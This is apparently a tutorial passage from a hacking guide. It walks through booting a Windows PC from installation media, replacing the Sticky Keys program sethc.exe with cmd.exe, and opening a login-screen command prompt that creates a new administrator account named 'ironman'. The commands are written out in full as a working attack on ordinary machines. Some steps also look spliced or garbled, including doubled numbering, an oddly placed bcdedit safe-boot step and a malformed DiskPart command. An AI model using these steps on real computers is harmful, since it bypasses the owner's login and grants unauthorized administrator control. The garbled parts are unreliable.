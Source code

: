 1. On Windows computers, you press a special key to access the boot menu or BIOS. If your startup screen doesn't show you which key to press just before the Windows startup logo appears, reboot your computer and quickly press ESC, DELETE, F8, F9, F10, F11, or F12 right as it begins to start up. Search online for "boot menu" and the specific make and model of your computer to find the right key.
2. If the boot menu appears, select the **Boot from DVD** or **Boot from USB** option to boot from the Windows installation disc you inserted, then move on to step 5.
3. If the boot menu doesn't appear after a few restarts, try entering the BIOS menu instead: turn the computer off and on again, and press DELETE, F2, F9, F10, F12, or ESC. Search online for "BIOS" and your computer model to find the right key.
4. Once you're inside the BIOS, find the boot options and change the order or priority of your boot devices (often by using your arrow keys) to make the USB or DVD the top option. Then save the changes and exit the BIOS.
5. Reboot the computer again. You should briefly see the message Press any key to boot from CD or DVD or Press any key to boot from USB device. Press any key (such as the spacebar) _immediately_ to boot from your DVD or USB.
6. When the Windows installation disc starts up, click **Next>Repair your computer>Troubleshoot>Command Prompt**, as shown in Figure 2-2. The menu order or the option names might look different, but look for the Windows command prompt.
7. 7. Once you've reached the Windows command prompt (usually a black, text-based window), type **c:** and press **ENTER** to change to the C: drive, as shown here:  
    
    X:\> **c:**
    

8. Enter the command **dir** to see a list of files and folders on the C: drive. Look for a folder called Windows (it will be marked `<DIR>`, short for _directory_).  
    
    C:\> **dir  
    **  Volume in drive C is Windows 10  
      Volume Serial Number is B4EF-FAC7  
      Directory of C:\  
    _--snip--  
    _03/15/2018 02:51 AM   `<DIR>`     Users  
    05/19/2019 10:09 AM   `<DIR>`     Windows *1  
    _--snip--_
    
    This folder (*1) contains the operating system files, including the command prompt application and the Sticky Keys program file that we need to swap out to perform this hack.

9. If there's no _Windows_ directory on the C: drive, use the `list volumes` command in DiskPart to locate the correct drive letter.

### Gaining Administrator-Level Access

Now to replace the _sethc.exe_ Sticky Keys program with the _cmd.exe_ command prompt program. Then we'll be able to create a new administrator account on the computer.

1. Enter the following three commands (sethc or utilman):  
    
    C:\> cd \Windows\System32\  
    C:\Windows\System32\>  **copy  sethc.exe  sethc.bak**  
    C:\Windows\System32\>  **copy  cmd.exe  sethc.exe**
    
    These commands enter the directory where we can find both _sethc.exe_ and _cmd.exe_, create a backup copy of the Sticky Keys program, and replace the original Sticky Keys program file with a copy of the command prompt program file. This way, whenever the computer runs _sethc.exe_, it will open a command prompt window in place of the Sticky Keys program.
2. After the third command, Windows will ask you if you want to overwrite _exe_. Enter **Y** to proceed.
3. While making the new copy of sethc.exe, use this command:  
	`bcdedit /set {default} safeboot minimal`  
	This will make the computer start up in safe mode ONLY.
4. Remove the Windows 10 installation DVD or USB and reboot the computer.
5. When the PC boots to the login screen, press **SHIFT** five times. Instead of the usual Sticky Keys program, you should see a command prompt window pop up _in front_ of the login screen, as shown in Figure 2-3.
6. Enter the following two commands into the command prompt window:  
    
    C:\Windows\System32\> **net user ironman Jarvis /add  
    C:\Windows\System32\>** **net localgroup  administrators ironman /add**
    
    The first command adds a user account named _ironman_ with the password _Jarvis_ to the Windows computer. The second command adds the _ironman_ user to the list of local administrators. This means that when we log in as _ironman_, we'll have administrator-level access to all the files on the computer.
7. To disable safe boot after you’re done, use `bcdedit /deletevalue {default} safeboot`.